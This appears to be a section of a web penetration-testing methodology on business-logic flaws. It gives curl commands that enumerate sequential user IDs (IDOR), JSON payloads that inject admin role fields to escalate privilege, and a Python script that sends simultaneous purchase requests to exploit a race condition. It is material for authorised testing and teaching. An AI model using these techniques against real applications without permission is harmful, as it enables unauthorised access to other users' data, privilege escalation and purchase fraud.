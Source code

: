 
## 8. Business Logic {#8-business-logic}

### Step 8.1: IDOR (Insecure Direct Object Reference)
```bash
# Test sequential IDs
curl $TARGET/profile?id=1
curl $TARGET/profile?id=2
curl $TARGET/profile?id=3

# Test with Burp Intruder
# Set payload position: /api/user/§1§
# Payload type: Numbers (1-1000)
```

### Step 8.2: Privilege Escalation
```bash
# Intercept request in Burp
POST /api/update-profile HTTP/1.1
...
{"name": "John", "email": "john@test.com"}

# Add role parameter
{"name": "John", "email": "john@test.com", "role": "admin"}

# Or modify existing
{"name": "John", "email": "john@test.com", "isAdmin": true}
```

### Step 8.3: Race Condition
```python
# race_condition.py
import requests
import threading

url = "http://target/buy-product"
session = "your_session_cookie"

def buy():
    requests.post(url, cookies={"session": session}, data={"id": 1})

# Send 10 simultaneous requests
threads = []
for i in range(10):
    t = threading.Thread(target=buy)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```
